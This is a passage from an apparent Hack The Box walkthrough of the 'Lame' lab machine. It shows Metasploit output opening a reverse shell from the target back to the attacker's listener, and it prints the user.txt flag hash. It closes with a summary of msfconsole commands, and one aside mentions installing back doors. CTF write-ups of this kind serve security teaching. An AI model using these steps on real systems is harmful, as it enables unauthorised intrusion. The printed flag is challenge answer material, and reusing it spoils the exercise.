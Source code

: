 ```bash
--------------------------------------------------------------------------------------------------------------------------------
Shellcodes: No Result

```
We can walk through the same steps again to launch the exploit and set the options etc. This time however the exploit should work.

```bash
$ exploit

[*] Started reverse TCP double handler on 10.10.14.6:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo lvAkii9KY4bvwjOc;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "lvAkii9KY4bvwjOc\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.6:4444 -> 10.10.10.3:37427) at 2019-11-21 04:07:21 +0000

```

> We are now on the terminal of the 'Lame' server and can poke around and look for files etc. or install any back doors or code we want. 

#### 8. Claiming our prize
Now that we're on the server. We need to try find the user.txt and root.txt files. That we can submit to the Hack The Box servers to prove we've gotten access to the server.

So lets try find 'users.txt'.

```bash
$ locate user.txt
/home/makis/user.txt
/usr/share/doc/fontconfig-config/fontconfig-user.txt.gz

$ cat /home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```

we can quickly use the locate command and then pint the contents of the file out to se the hash we need to submit on HTB to claim this server. So on the hack the box website we can go into the lame server section and find the small button 'own user' and submit our hash and give the challenge a difficultly rating. And finally we just need to find the root.txt file and submit that hash to the 'own root' link on the same webpage.

#### 9. MSFConsole command summary
So to launch: msfconsole
then: search exploit_or_service
then: use path/to/exploit/
then: info
then: show options
then: set required_variables
then: exploit

